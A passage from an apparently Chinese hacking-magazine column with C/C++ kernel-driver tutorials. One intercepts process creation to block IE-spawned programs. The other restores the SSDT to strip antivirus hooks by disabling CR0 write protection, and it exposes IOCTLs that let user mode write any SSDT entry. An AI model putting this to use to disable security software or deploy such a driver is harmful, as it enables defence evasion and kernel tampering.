    UNICODE_STRING FilePath;
    UNICODE_STRING DosName;
    NTSTATUS Status;
    STRING AnsiString;

    SectionObject = NULL;
    FileObject = NULL;
    FilePath.Buffer = NULL;
    FilePath.Length = 0;
    *ProcessImageName = 0;

    Status = ObReferenceObjectByHandle(SectionHandle, 0, NULL, KernelMode, &SectionObject, NULL);
    ...
}
```

```c
// 根据 SectionHandle 获取 SectionObject
if (NT_SUCCESS(Status))
{
    FilePath.Buffer = ExAllocatePool(PagedPool, 0x200);
    FilePath.MaximumLength = 0x200;

    // SectionObject->Segment->ControlArea->FilePointer
    FileObject = (PFILE_OBJECT)((*(ULONG*)SectionObject + 5));
    // PSEGMENT
    FileObject = *(PFILE_OBJECT*)FileObject;
    // CONTROL_AREA
    FileObject = *(PFILE_OBJECT*)((ULONG)FileObject + 36); // FILE_OBJECT

    ObReferenceObjectByPointer((PVOID)FileObject, 0, NULL, KernelMode);
    RtlVolumeDeviceToDosName(FileObject->DeviceObject, &DosName);

    // 得到的结果类似于 “C:”
    RtlCopyUnicodeString(&FilePath, &DosName);
    RtlAppendUnicodeStringToString(&FilePath, &FileObject->FileName);
    // FileObject->FileName 中的数据无盘符，类似于 "\WINDOWS\Explorer.exe"

    ObDereferenceObject(FileObject);
    ObDereferenceObject(SectionObject);

    RtlUnicodeStringToAnsiString(&AnsiString, &FilePath, TRUE);
    // 转换为 Ansi 输出
    if (AnsiString.Length >= 256)
    {
        memcpy(ProcessImageName, AnsiString.Buffer, 0x100);
        *(ProcessImageName + 255) = 0;
    }
    else
    {
        memcpy(ProcessImageName, AnsiString.Buffer, AnsiString.Length);
        ProcessImageName[AnsiString.Length] = 0;
    }

    RtlFreeAnsiString(&AnsiString);
    ExFreePool(DosName.Buffer);
    ExFreePool(FilePath.Buffer);
    Status = STATUS_SUCCESS;
}
return Status;
```

- 2）获取创建者的 PID。我们使用如下代码获取创建者 PID。

```c
CreatorProcessId = PsGetProcessId(PsGetCurrentProcess());
```

## 和用户模式的同步、通信

在内核模式、用户模式同步和通信部分，我们采用事件通信的方法实现。本文使用了两个事件，一个事件（事件1）由用户模式等待（使用 WaitForSingleObject 函数），一个由内核模式等待（事件2）（使用 KeWaitForSingleObject 函数）。其基本流程如下。

- 1）用户模式下等待事件1进入阻塞状态。
- 2）内核模式下拦截到创建进程操作时执行将事件1置为信号态（使用 KeSetEvent 函数），同时自己等待事件2。
- 3）用户模式恢复执行，内核模式进入阻塞状态，然后用户模式通过 DeviceIoControl 函数从内核模式取得创建者的进程标识符和被创建者的路径，经过判断后决定允许执行或禁止执行，之后再次通过 DeviceIoControl 函数将是否允许执行传入内核模式，内核模式保存用户模式传入的决定。
- 4）用户模式将事件1置为非信号态（使用 ResetEvent 函数），同时将事件2置为信号态（使用 SetEvent 函数），然后回到第1步。
- 5）内核模式恢复执行，将事件2置为非信号态（使用 KeResetEvent 函数），等待下次拦截到的 NtCreateProcessEx 函数，同时检查用户模式传入的决定，根据情况决定执行原始 NtCreateProcessEx 函数或是直接返回失败。

```c
// 内核模式，获取用户模式的决定
NTSTATUS WaitForUserAnswer()
{
    if (EventKernelWait && EventKernelSet)
    {
        if (CreateIsProgressing) return STATUS_ACCESS_DENIED;
        // 防止混乱
        CreateIsProgressing = TRUE;
        KeSetEvent(EventKernelSet, 0, FALSE);
        KeWaitForSingleObject(EventKernelWait, Executive, KernelMode, FALSE, NULL);
        KeResetEvent(EventKernelWait);
        CreateIsProgressing = FALSE;
        return (CreateAllowed ? STATUS_SUCCESS : STATUS_ACCESS_DENIED);
    }
    return STATUS_SUCCESS;
}

// 得到创建者和被创建者信息
case IOCTL_GET_CREATE_PROC_INFO:
{
    CREATE_PROCESS_INFORMATION CreateInfo = {0};
    CreateInfo.ParentProcessId = CreatorProcessId;
    memcpy(CreateInfo.NewProcessImagePath, CreatingProcessImagePath, 256);
    RtlCopyMemory(pIrp->UserBuffer, &CreateInfo, sizeof(CreateInfo));
    break;
}

// 保存用户模式决定
case IOCTL_ALLOW_CREATE:
{
    memcpy(&CreateAllowed, pIoBuffer, sizeof(CreateAllowed));
    break;
}

// 用户模式
ULONG WINAPI ThreadProc(PVOID Context)
{
    CREATE_PROCESS_INFORMATION CreateProcInfo;
    CHAR CreateAllowed = TRUE;
    for (;;) {
        WaitForSingleObject(hUserWaitEvent, INFINITE);
        KernelDriver.IoControl(IOCTL_GET_CREATE_PROC_INFO, NULL, 0,
                               &CreateProcInfo, sizeof(CreateProcInfo));
        CreateAllowed = !(IsIE(CreateProcInfo.ParentProcessId));
        KernelDriver.IoControl(IOCTL_ALLOW_CREATE,
                               &CreateAllowed, sizeof(CreateAllowed), NULL, 0);
        SetEvent(hUserSetEvent);
        ResetEvent(hUserWaitEvent);
    }
}
```

#### 如何判断创建者是否为 IE

IE 窗口的类名是“IEFrame”，所以，我们可以通过遍历系统中所有 IE 窗口的方法来判断一个进程是不是 IE 进程。实现代码如下。

```c
BOOLEAN IsIE(HANDLE ProcessId)
{
    HWND WindowHandle = NULL;
    ULONG Pid = 0;
    WindowHandle = FindWindowEx(WindowHandle, NULL, "IEFrame", NULL);
    // 取得第一个类名为“IEFrame”的窗口的句柄
    while (WindowHandle)
    {
        GetWindowThreadProcessId(WindowHandle, &Pid);
        // 取得线程标识符
        if (Pid == (ULONG)ProcessId) return TRUE;
        // 目标窗口匹配，该进程为 IE 进程
        WindowHandle = FindWindowEx(WindowHandle, NULL, "IEFrame", NULL);
        // 取得下一个类名为“IEFrame”的窗口的句柄
    }
    return FALSE;
    // 找不到匹配的窗口，说明该进程不是 IE
}
```

此处要说明的是，这显然只是一份概念性代码，因为现在更多的人使用的是第三方浏览器（Maxthon、GreenBrowser 等），这段判断代码在 Maxthon 1.6 下也可以工作得很好，但在 GreenBrowser 下则不能工作。我们也可以使用别的一些方法，比如模块名、窗口标题、文件签名，甚至 COM 接口等方法来进行综合判断。

#### 尚需改进的部分

- 1）自一开始，我的打算就是给大家介绍方法而非成品，所以最终的成品中有许多细节处理不到位，例如当用户模式判断是否允许执行时，如果有新的 NtCreateProcessEx 函数调用被拦截，则会被直接拒绝。大家可以试着自己实现一个任务队列来解决此问题。
- 2）用户模式程序我写成了控制台程序，虽然实现了相应功能，但很显然不可能作为一个软件公开发布，大家可以自己写一个图形用户界面。
- 3）在代码中我并没有体现出针对不同系统使用不同的服务号来实现拦截 NtCreateProcessEx 函数，大家可以自己添加代码（如何获取见上文）。

适合读者：编程爱好者

前置知识：VC、DDK

## 编程挖宝之

## SSDT恢复工具

文／图 Adly

大家都知道 SSDT 是什么吧？简而言之，它就是从 Ring3 到 Ring0 的一道门，将 Ring3 级的 Win32 API 对应到相应的 Ring0 级的 API 函数。

现在很多杀毒软件都 HOOK 了内核级 API，以阻止一些恶意程序的运行。如果我们需要调试一些黑客程序，却被杀毒软件阻止，就又得将杀毒软件退出，比较麻烦，而且还不易看出哪些内核级 API 被 HOOK 了，使我们编写程序时，不能很清楚地知道哪些函数能绕过杀毒软件的 HOOK。

下面我们就抱着学习的态度来编写一个工具，实现利用表格形式查看 SSDT 表，显示出它的服务号、当前地址、原始地址、服务函数名以及模块的名字，将被 HOOK 了的内核级 API 用红色突出显示出来，并可以实现恢复 SSDT 表内原始地址的功能，去掉多余的非系统默认项，还给我们一个干净的系统。实现的最终效果如图 1 所示。

## SSDT恢复工具的实现模块

本程序使用了三大模块来实现此功能，各个模块中所用到的公共文件为 IOCTL.h，此文件中包含了一些各个模块所要用到的结构体和 IO 控制命令的定义。

```c
#define FILE_DRIVER_SSDT 0x0000420
#define SystemModuleInfo 0x0B
#define DRIVER_NAME L"\\Device\\SSDT"
#define DEVICE_NAME L"\\DosDevices\\SSDT"
#ifndef CTL_CODE
#define CTL_CODE(DeviceType, Function, Method, Access) \
    (((DeviceType) << 16) | ((Access) << 14) | ((Function) << 2) | (Method))
#endif // CTL_CODE
#ifndef METHOD_NEITHER
#define METHOD_NEITHER 3
#endif // METHOD_NEITHER

// SSDT 结构体
typedef struct _tagSSDT {
    PVOID pvSSDTBase;
    PVOID pvServiceCounterTable;
    ULONG ulNumberOfServices;
    PVOID pvParamTableBase;
} SSDT, *PSSDT;

// ModuleInfo 结构体
typedef struct ModuleInfo_t {
    ULONG Unused;
    ULONG Always0;
    ULONG ModuleBaseAddress;
    ULONG ModuleSize;
    ULONG Unknown;
```

```c
ULONG ModuleEntryIndex;
/* Length of module name not including the path,
this field contains valid value only for NTOSKRNL module */
USHORT ModuleNameLength;
USHORT ModulePathLength; /* Length of 'directory path' part of module name */
char ModuleName[256];
} DRIVERMODULEINFO, *PDRIVERMODULEINFO;

// 获取SSDT结构
#define IOCTL_GETSSDT (ULONG)CTL_CODE(FILE_DRIVER_SSDT, 0x01, METHOD_NEITHER, FILE_READ_DATA | FILE_WRITE_DATA)

// 设置SSDT结构
#define IOCTL_SETSSDT (ULONG)CTL_CODE(FILE_DRIVER_SSDT, 0x02, METHOD_NEITHER, FILE_READ_DATA | FILE_WRITE_DATA)

// 查询SSDT HOOK函数地址
#define IOCTL_GETHOOK (ULONG)CTL_CODE(FILE_DRIVER_SSDT, 0x03, METHOD_NEITHER, FILE_READ_DATA | FILE_WRITE_DATA)

// 设置SSDT HOOK函数地址
#define IOCTL_SETHOOK (ULONG)CTL_CODE(FILE_DRIVER_SSDT, 0x04, METHOD_NEITHER, FILE_READ_DATA | FILE_WRITE_DATA)
```

```c
DRIVER_NAME);
RtlInitUnicodeString(&usDosDeviceName, DEVICE_NAME);
s = IoCreateDevice(pDriverObject, 0, &usDriverName, FILE_DRIVER_SSDT, FILE_DEVICE_SECURE_OPEN, FALSE, &pdo);
if (STATUS_SUCCESS == s)
{
    pDriverObject->MajorFunction[IRP_MJ_CREATE] = SSDTCreate;
    pDriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = SSDTDeviceIoCtl;
    pDriverObject->DriverUnload = SSDTUnload;
    IoCreateSymbolicLink(&usDosDeviceName, &usDriverName);
}
DbgPrint("SSDT: Load Success!");
return s;
}
```

#### 驱动模块

第一大模块是一个SYS驱动程序，它的主要作用是获取/设置服务描述表的地址、获取/设置SSDT各个表项的处理函数地址。SYS驱动程序的功能其实是很简单的，所以，我们写的驱动程序也很简单。

在DriverEntry这个驱动入口函数中，我们除了创建设备和符号链接名外，最重要的是，我们还注册了3个回调例程：创建（SSDTCreate）、卸载（SSDTUnload）和我们这里最重要的IO分发例程（SSDTDeviceIoCtl）。其中创建和卸载这里就不讲解了（需要的朋友请看完整驱动源码），只详细说说IO分发例程。

```c
#include <ntddk.h>
#include <ntstatus.h>
#include "..\\IOCTL.h"
extern PSSDT KeServiceDescriptorTable;
```

首先在驱动文件头中包含了3个头文件。最后一个KeServiceDescriptorTable是由内核导出的，这个非常重要，它让我们能够得到服务描述表的首地址。

```c
NTSTATUS DriverEntry(PDRIVER_OBJECT pDriverObject,
    PUNICODE_STRING pRegistryPath)
{
    PDEVICE_OBJECT pdo = NULL;
    NTSTATUS s = STATUS_SUCCESS;
    UNICODE_STRING usDriverName, usDosDeviceName;
    RtlInitUnicodeString(&usDriverName, ...
```

```c
NTSTATUS SSDTDeviceIoCtl(PDEVICE_OBJECT pDeviceObject, PIRP Irp)
{
    NTSTATUS s;
    PIO_STACK_LOCATION IrpStack;
    PVOID InputBuffer;
    PVOID OutputBuffer;
    ULONG InputBufferLength;
    ULONG OutputBufferLength;
    ULONG IoControlCode;

    s = Irp->IoStatus.Status = STATUS_SUCCESS;
    Irp->IoStatus.Information = 0;
    IrpStack = IoGetCurrentIrpStackLocation(Irp);
    InputBuffer = IrpStack->Parameters.DeviceIoControl.Type3InputBuffer;
    InputBufferLength = IrpStack->Parameters.DeviceIoControl.InputBufferLength;
    OutputBuffer = Irp->UserBuffer;
    OutputBufferLength = IrpStack->Parameters.DeviceIoControl.OutputBufferLength;
    IoControlCode = IrpStack->Parameters.DeviceIoControl.IoControlCode;
```

首先是取得I/O控制码、输入缓冲、输出缓冲、输入长度以及输出长度，以便下面能够顺利引用。

```c
// 这里处理分发例程
switch( IoControlCode )
{
    // ******************************
    case IOCTL_GETSSDT: // 得到 SSDT
        __try
        {
            ProbeForWrite( OutputBuffer, sizeof( SSDT ), sizeof( ULONG ) );
            RtlCopyMemory( OutputBuffer, KeServiceDescriptorTable, sizeof( SSDT ) );
        }
        __except( EXCEPTION_EXECUTE_HANDLER )
        {
            s = GetExceptionCode();
            break;
        }
        DbgPrint("SSDT: GetSSDT Completed!");
        break;

    // ******************************
    case IOCTL_SETSSDT: // 设置 SSDT
        __try
        {
            ProbeForRead( InputBuffer, sizeof( SSDT ), sizeof( ULONG ) );
            // 去掉内存保护
            __asm
            {
                cli; // 关中断
                mov eax, cr0
                and eax, ~0x10000
                mov cr0, eax
            }

            RtlCopyMemory( KeServiceDescriptorTable, InputBuffer, sizeof( SSDT ) );

            // 开中断，把内存保护加上
            __asm
            {
                mov eax, cr0
                or eax, 0x10000
                mov cr0, eax
                sti; // 开中断
            }
        }
        __except( EXCEPTION_EXECUTE_HANDLER )
        {
            s = GetExceptionCode();
            break;
        }

        DbgPrint("SSDT: SetSSDT Completed!");
        break;

    // ******************************
    case IOCTL_GETHOOK: // 查询 SSDT 指定地址
        __try
        {
            ProbeForRead( InputBuffer, sizeof( ULONG ), sizeof( ULONG ) );
            ProbeForWrite( OutputBuffer, sizeof( ULONG ), sizeof( ULONG ) );
        }
        __except( EXCEPTION_EXECUTE_HANDLER )
        {
            s = GetExceptionCode();
            break;
        }

        // 测试传入的参数是否正确
        if( KeServiceDescriptorTable->ulNumberOfServices <= *(PULONG)InputBuffer )
        {
            s = STATUS_INVALID_PARAMETER;
            break;
        }

        // 将结果传到用户给出位置
        *(PULONG)OutputBuffer = *((PULONG)(KeServiceDescriptorTable->pvSSDTBase) + *(PULONG)InputBuffer);
        DbgPrint("SSDT: GetHookedAddress Completed!");
        break;

    // ******************************
    case IOCTL_SETHOOK: // 设置 SSDT 指定地址
        __try
        {
            ProbeForRead( InputBuffer, sizeof( ULONG ), sizeof( ULONG ) );
            ProbeForRead( OutputBuffer, sizeof( ULONG ), sizeof( ULONG ) );
        }
        __except( EXCEPTION_EXECUTE_HANDLER )
        {
            s = GetExceptionCode();
            break;
        }

        // 测试传入的参数是否正确
        if( KeServiceDescriptorTable->ulNumberOfServices <= *(PULONG)InputBuffer )
        {
            s = STATUS_INVALID_PARAMETER;
            break;
        }

        // 在此将输出缓冲区当作输入缓冲区来用，输入指定 SSDT HOOK 的地址值，去掉内存保护
        __asm
        {
            cli; // 关中断
            mov eax, cr0
            and eax, ~0x10000
            mov cr0, eax
        }

        *((PULONG)(KeServiceDescriptorTable->pvSSDTBase) + *(PULONG)InputBuffer) = *(PULONG)OutputBuffer;

        // 开中断，把内存保护加上
        __asm
        {
            mov eax, cr0
            or eax, 0x10000
            mov cr0, eax
            sti; // 开中断
        }
        DbgPrint("SSDT: SetHookedAddress Completed!");
        break;

    // ******************************
    default:
        s = STATUS_INVALID_DEVICE_REQUEST;
        DbgPrint("SSDT: Invalid Parameter Completed!");
        break;
}
```

这段代码便是驱动程序的核心代码，它就实现了上面所说的驱动程序的功能。

IOCTL_GETSSDT这段用于获得服务描述表地址。首先对OutputBuffer进行写测试，如果能写，则将`KeServiceDescriptorTable`（即服务描述表）的地址写到OutputBuffer中，然后返回给用户的调用者程序。其中的KeServiceDescriptorTable变量是由上面的“extern PSSDT KeServiceDescriptorTable;”代码从内核中导出的。

接下来是IOCTL_SETSSDT，即设置服务描述表地址。首先对InputBuffer进行了读测试，如果没有异常，则进行下面的代码处理。

```c
// 去掉内存保护
__asm
{
    cli; // 关中断
    mov eax, cr0
    and eax, ~0x10000
    mov cr0, eax
}
```

先用这段代码，将中断关掉后去掉内存保护标志，以免发生内存写异常。

```c
RtlCopyMemory(KeServiceDescriptorTable, InputBuffer, sizeof(SSDT));
```

再将用户输入的服务描述表地址拷贝到内核中的服务描述表中。

```c
// 开中断，把内存保护加上
__asm
{
    mov eax, cr0
    or eax, 0x10000
    mov cr0, eax
    sti; // 开中断
}
```

最后再开启内存保护功能，将中断打开，允许中断。

IOCTL_GETHOOK查询用户指定的SSDT对应的处理函数地址，它对用户的InputBuffer输入进行读测试，对OutputBuffer进行写测试，如果都没有异常发生，则继续下面的代码功能。

```c
if( KeServiceDescriptorTable->ulNumberOfServices <= *(PULONG)InputBuffer )
{
    s = STATUS_INVALID_PARAMETER;
    break;
}
```

对用户输入的参数进行测试，如果输入的服务号太大，则返回STATUS_INVALID_PARAMETER出错代码。如果用户输入的服务号为一个正确的值，则将对应服务号的函数地址拷贝到用户的输出缓冲中，返回给用户。

```c
*((PULONG)OutputBuffer) = *((PULONG)
(KeServiceDescriptorTable->pvSSDTBase) + *(PULONG)InputBuffer);
```

驱动最后的一个功能为IOCTL_SETHOOK，即设置SSDT中服务号对应的内核函数处理地址。它首先对InputBuffer和OutputBuffer都进行了读测试（在这里，我把OutputBuffer也当作一个输入缓冲来使用，让它存放用户待设置的函数处理地址），在没有异常的情况下，仍然对用户所输入的服务号进行判断，如果不正确，则返回STATUS_INVALID_PARAMETER代码；如果正确，则首先关中断，去掉内存写保护（同上），然后将用户所输入的函数处理地址设置到服务描述表的相应表格中。

```c
*((PULONG)(KeServiceDescriptorTable->pvSSDTBase) + *(PULONG)InputBuffer) = *(PULONG)OutputBuffer;
```

最后就是完成IO请求，返回执行的结果状态了。

```c
IoCompleteRequest(Irp, IO_NO_INCREMENT);
return s;
}
```

至此，整个驱动模块就编写完毕了。在其他驱动程序中（或DDK的源码示例中）拷贝一个MAKEFILE文件和SOURCES文件，放到刚才写的驱动程序文件同一目录中，把刚才写的驱动程序文件改名为SSDT.c，修改SOURCES内容为：

```txt
TARGETNAME=SSDT
TARGETPATH=\sys
TARGETTYPE=DRIVER
SOURCES=SSDT.c
```

直接利用DDK的命令行“build”，一个驱动文件“SSDT.sys”即会出现在`sys\i386`目录中了。

#### 基本功能实现模块

此模块的代码量太大，我只简单地进行讲解。此模块包含两个文件：SSDT.h和SSDT.cpp。SSDT.h中包含了几个重要的结构体和一些函数声明，一个很重要的函数声明为NtQuerySystemInformation，在这里，主要用它来获取几个模块的一些重要信息，该信息的结构体为：

```c
typedef struct _SYSTEM_MODULE_INFORMATION {
  ULONG Reserved[2];
  PVOID Base;
  ULONG Size;
  ULONG Flags;
  USHORT Index;
  USHORT Unknown;
  USHORT LoadCount;
  USHORT ModuleNameOffset;
  CHAR ImageName[256];
} SYSTEM_MODULE_INFORMATION, *PSYSTEM_MODULE_INFORMATION;
```

下面我自定义了一个结构体，用来保存SSDT的各个信息。

```c
typedef struct _SSDTSaveTable // 保存SSDT信息
{
  ULONG ulServiceNumber; // 服务号
  ULONG ulCurrentFunctionAddress; // 当前函数地址
  ULONG ulOriginalFunctionAddress; // 原始函数地址
  char ServiceFunctionName[MAX_PATH+1]; // 服务函数名
  char ModuleName[MAX_PATH+1]; // 模块名
} SSDTSaveTable, *pSSDTSaveTable;
```

在SSDT.cpp实现文件中，我还定义了一些基本的操作，包括LoadDriver，用于加载驱动程序；UnloadDriver，用于卸载驱动程序；GetSSDT，得到服务描述表地址；SetSSDT，设置服务描述表地址；GetHook，获取指定服务号所对应的处理函数地址；SetHook，设置指定服务号所对应的处理函数地址。这几个函数主要利用DeviceIoControl函数向驱动发送控制代码实现。

EnumSSDT是一个非常重要的函数，它的主要功能为枚举出所有的SSDT表项，实现代码如下。

```c
// 枚举SSDT
BOOL EnumSSDT( IN HANDLE hDriver )
{
  ……代码省略……
  do
  {
    ……代码省略……
    // 枚举
    ulNtDllOffset = (ULONG)hNtDllInst;
    // PE头部
    ulNtDllOffset += ((PIMAGE_DOS_HEADER)hNtDllInst)->e_lfanew + sizeof(DWORD);
    // 数据目录
    ulNtDllOffset += sizeof(IMAGE_FILE_HEADER)
      + sizeof(IMAGE_OPTIONAL_HEADER)
      - IMAGE_NUMBEROF_DIRECTORY_ENTRIES * sizeof(IMAGE_DATA_DIRECTORY);
    // 导出表
    ulNtDllOffset = (DWORD)hNtDllInst + ((PIMAGE_DATA_DIRECTORY)ulNtDllOffset)->VirtualAddress;
    // 导出目录表
    pImgExpDir = (PIMAGE_EXPORT_DIRECTORY)ulNtDllOffset;
    // 得到函数个数
    ulFuncNameCount = pImgExpDir->NumberOfNames;
    // 函数名数组指针
    pFuncNameArray = (PULONG)((ULONG)hNtDllInst + pImgExpDir->AddressOfNames);
    // 循环找函数名
    for( i = 0; i < ulFuncNameCount; i++ )
    {
      // 函数名
      PCSTR pszName = (PCSTR)(pFuncNameArray[i] + (ULONG)hNtDllInst);
      if( pszName[0] == 'N' && pszName[1] == 't' ) // Nt开头的函数
      {
        // 查找表
        LPWORD pOrdNameArray = (LPWORD)((ULONG)hNtDllInst + pImgExpDir->AddressOfNameOrdinals);
        ……
      }
    }
  } while(...);
}
```

#### 编程语言解析

#### PROGRAMMING ANALYSE

栏目编辑 / socket / socket@hacker.com.cn

```cpp
LPDWORD pFuncArray = (LPDWORD)((ULONG)hNtDllInst + pImgExpDir->AddressOfFunctions);
// 函数代码
LPCVOID pFuncCode = (LPCVOID)((ULONG)hNtDllInst + pFuncArray[pOrdNameArray[i]]);
// 获取服务号
SSDTEntry EntryCode;
memcpy(&EntryCode, pFuncCode, sizeof(SSDTEntry));
if (EntryCode.byMov == 0xB8) // MOV EAX, XXXX
{
    ULONG ulAddr = 0;
    if (!GetHook(hDriver, EntryCode.ulIndex, &ulAddr))
    {
        bOK = FALSE;
        break;
    }

    // 通过地址得到模块名
    char ModNameBuf[MAX_PATH + 1];
    memset(ModNameBuf, 0, sizeof(ModNameBuf));
    if (GetModuleNameByAddr(ulAddr, pList, ModNameBuf, sizeof(ModNameBuf) - 1))
    {
        memcpy(
            ((pSSDTSaveTable)((ULONG)pSSDTST + RealCount * sizeof(SSDTSaveTable)))->ModuleName,
            ModNameBuf,
            sizeof(ModNameBuf)
        );
    }

    // 保存 SSDT 信息到缓冲表中
    ((pSSDTSaveTable)((ULONG)pSSDTST + RealCount * sizeof(SSDTSaveTable)))->ulServiceNumber =
        EntryCode.ulIndex; // 服务号
    ((pSSDTSaveTable)((ULONG)pSSDTST + RealCount * sizeof(SSDTSaveTable)))->ulCurrentFunctionAddress =
        ulAddr; // 当前函数地址
    memcpy(
        ((pSSDTSaveTable)((ULONG)pSSDTST + RealCount * sizeof(SSDTSaveTable)))->ServiceFunctionName,
        pszName,
        sizeof(((pSSDTSaveTable)((ULONG)pSSDTST + RealCount * sizeof(SSDTSaveTable)))->ServiceFunctionName)
    );

    RealCount++;
}
}
}
while (FALSE);
FreeLibrary(hNtDllInst);
if (bOK) // 成功
{
    // 获取剩下的服务号
    for (i = RealCount; i < TotalSSDTCount; i++)
    {
        if (!GetHook(hDriver, i, &((pSSDTSaveTable)
            ((ULONG)pSSDTST + i * sizeof(SSDTSaveTable)))->ulCurrentFunctionAddress))
        {
            bOK = FALSE;
            break;
        }

        // 通过地址得到模块名
        char ModNameBuf[MAX_PATH + 1];
        memset(ModNameBuf, 0, sizeof(ModNameBuf));
        if (GetModuleNameByAddr(
            ((pSSDTSaveTable)((ULONG)pSSDTST + i * sizeof(SSDTSaveTable)))->ulCurrentFunctionAddress,
            pList, ModNameBuf, sizeof(ModNameBuf) - 1))
        {
            memcpy(
                ((pSSDTSaveTable)((ULONG)pSSDTST + i * sizeof(SSDTSaveTable)))->ModuleName,
                ModNameBuf,
                sizeof(ModNameBuf)
            );
        }

        // 按服务号进行排序
        SSDTSTOrderByServiceNum(pSSDTST);
        // 获取原始函数地址
        GetOldSSDTAddress();
    }
    if (pList)
    {
        DestroyModList(pList); // 释放模块链表
        pList = NULL;
    }

    return bOK;
}
```

它首先读取服务描述表，得到其中的 SSDT 表项个数，根据此值来分配一定的内存空间，用于存储自定义的 SSDT 信息。

首先根据 ntdll 函数中以“Nt”开头的导出函数进行匹配，得到服务号与函数名的对应关系。再根据 SSDT 表中处理函数的地址，通过使用函数 NtQuerySystemInformation 所查询得到的各个模块基址及大小，枚举得出这个地址属于哪个模块，从而得到模块名。然后再将 ntdll 函数中所没有的剩余表项从 SSDT 表中读取出来，放入自定义的 SSDT 信息结构体中。最后对获得的整个自定义 SSDT 信息结构体按照服务号从小到大的顺序进行冒泡排序（这里使用了 SSDTSTOrderByServiceNum 函数）。

接下来的恢复 SSDT 各表项的函数比较简单，主要思路就是把得到的原始处理函数地址（原始处理函数地址的得到在后面讲解）设置回 SSDT 当前函数地址表项中。

```cpp
// 恢复SSDT表
BOOL ReSSDT(IN HANDLE hDriver)
{
    ULONG i;
    if (RealCount == 0)
    {
        return FALSE;
    }

    for (i = 0; i < RealCount; i++)
    {
        if (((pSSDTSaveTable)((ULONG)pSSDTST + i * sizeof(SSDTSaveTable)))->ulCurrentFunctionAddress
            != ((pSSDTSaveTable)((ULONG)pSSDTST + i * sizeof(SSDTSaveTable)))->ulOriginalFunctionAddress)
            // 当前地址和原始地址不同，恢复原始地址值
        {
            if (!SetHook(hDriver,
                ((pSSDTSaveTable)((ULONG)pSSDTST + i * sizeof(SSDTSaveTable)))->ulServiceNumber,
                &((pSSDTSaveTable)((ULONG)pSSDTST + i * sizeof(SSDTSaveTable)))->ulOriginalFunctionAddress))
            {
                return FALSE;
            }
        }
    }
    return TRUE;
}
```

```cpp
#include <tchar.h>
#include "..\\EXE\\SSDT.h"
extern ULONG NTBase;              // NT 基址
extern ULONG TotalSSDTCount;      // SSDT 服务个数
extern ULONG RealCount;           // 枚举所找到的服务个数
extern pSSDTSaveTable pSSDTST;    // 保存的 SSDT 缓冲表
HANDLE hDriver = NULL;            // 驱动句柄
BOOL bLoadSysSuccess = TRUE;
```

该模块要使用到基本功能实现模块，所以要将 SSDT.h 头文件加上。接着将基本功能实现模块中的公共变量导入本模块中，再定义两个全局变量，用来保存驱动程序的句柄和标志是否已经成功加载了驱动。

本模块中的一个重要函数就是 SSDT 的显示了。我利用 CListCtrl 控件将各个 SSDT 的表项显示出来，在这里要加上“m_List.SetExtendedStyle(m_List.GetExtendedStyle() | LVS_EX_FULLROWSELECT | LVS_EX_GRIDLINES);”，使之被选择时，是被选择的整行（m_List 为 CListCtrl 类的一个实例）。下面是重绘 SSDT 的实现函数。

```cpp
void CSSDTDlg::OnReShowSSDT()
{
    m_List.DeleteAllItems();
    ShowSSDT();
}
```

先删除所有项，再显示出来。当点击“恢复SSDT”按钮时，首先让用户确认，如果确认通过，则首先调用基本函数模块中的 ReSSDT 函数对 SSDT 进行恢复，再调用 SSDT 的重绘函数，重新将更改后的 SSDT 表项显示出来。

ReSSDTAndThrowSpilth 为去掉多余的 SSDT 表项（即非系统原始的表项）。它的主要思路就是直接简单地将服务描述表中的服务个数设置为 ntdll 中所查找到的匹配的函数个数。

最后就是得到原始的 SSDT 表项地址了，该功能代码参考自网上的代码，大家就自己看源码吧。其主要实现思路就是首先加载系统中的 ntoskrnl.exe 程序，找到其中的 KiServiceTable，再将其转化为系统所加载的真实地址，读取出系统中原始的 SSDT 表项地址。

#### 界面模块

最后一个模块即为我们的界面模块了，首先根据图1制作出一个基于对话框的 MFC 程序，然后在 XXXDlg.cpp 文件的头部加上以下代码。

```cpp
#include <windows.h>
#include <shlwapi.h>
```

当点击“恢复SSDT并删除非系统表项”时，也是首先让用户确认，确认后调用基本函数模块中的 ReSSDTAndThrowSpilth 函数，再调用 SSDT 重绘函数进行重绘。

最下面有一个函数为参考自网上的函数，它的主要作用是更改 CListCtrl 控件中的每一行中的字体颜色和背景颜色。我主要使用它来将被 HOOK 了的内核函数用红颜色突出显示。最后要提醒的一点是：要记得在消息映射中添加“ON_NOTIFY(NM_CUSTOMDRAW, IDC_LIST1, OnDrawColorForMyList)”。

适合读者：编程爱好者

前置知识：VC

## 基于NTFS的数据流创建与检测

文／倪建华

